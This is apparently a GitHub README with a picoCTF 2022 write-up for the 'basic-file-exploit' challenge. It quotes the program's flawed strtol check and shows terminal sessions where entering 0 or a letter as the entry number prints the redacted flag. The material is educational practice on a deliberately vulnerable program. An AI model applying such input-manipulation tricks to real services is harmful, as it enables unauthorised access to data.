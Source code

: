 
# picoCTF-2022
Hi there, and Welcome to my picoCTF-2022 progress and writeups



<details>
  <summary><h2> 1. basic-file-exploit ✔️ </h2></summary>
  <h3>Description:</h3>
	The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! <br/>
	<s>Connect to the program with netcat:</s><br/> 
	<s>$ nc saturn.picoctf.net 49000</s><br/>
	"<i>Use <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.out><code>1.basic-file-exploit.out</code></a> instead</i>"<br/>
	The program's source code with the flag redacted can be downloaded <a href=https://github.com/LogicBypass/CTF-s/blob/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.c>here.</a> <br/>
	<br/>
  
  > Hint: Try passing in things the program doesn't expect. Like a string instead of a number.
  ----
  <h3>Reconnaissance:</h3>
	Download the files: <code>wget link-to-file</code><br/> 
	Make it exacutable:<code>chmod +x *</code><br/>
	Open the program's source code file and analyze the flag retrieving function:<br/>
<pre>
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
	puts(flag);
	fseek(stdin, 0, SEEK_END);
	exit(0);
}
</pre>
	<br/>
	Now we need to manipulate the input to get the function result == 0 </br>
  <hr>
  <h3>Exploitation:</h3>
	At the first run, let's try to use it as intended</br>
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
1
Logic Bypass
Read successful, would you like to do anything else?
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Now let's try to insert "0" into different fields:<br/>
	First try:
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
0
Please enter the length of your data:
0
Please put in a valid length		#Not allowed to insert 0
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Read our entry
Please enter the entry number of your data:
1
0
Read successful, would you like to do anything else?

Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Nothing interesting</br>
	Second try, the valid input but try to read the "0" entry number
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
0
picoCTF{#########################}
</pre>
Hooray! We have a flag!
<br/>
We also can get the output by "Trying passing strings instead of number" as mentioned in "Hint"
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
A
picoCTF{#########################}
</pre>
Hooray! We have a flag!
</details>



 Checkmarks:
✔️
❌


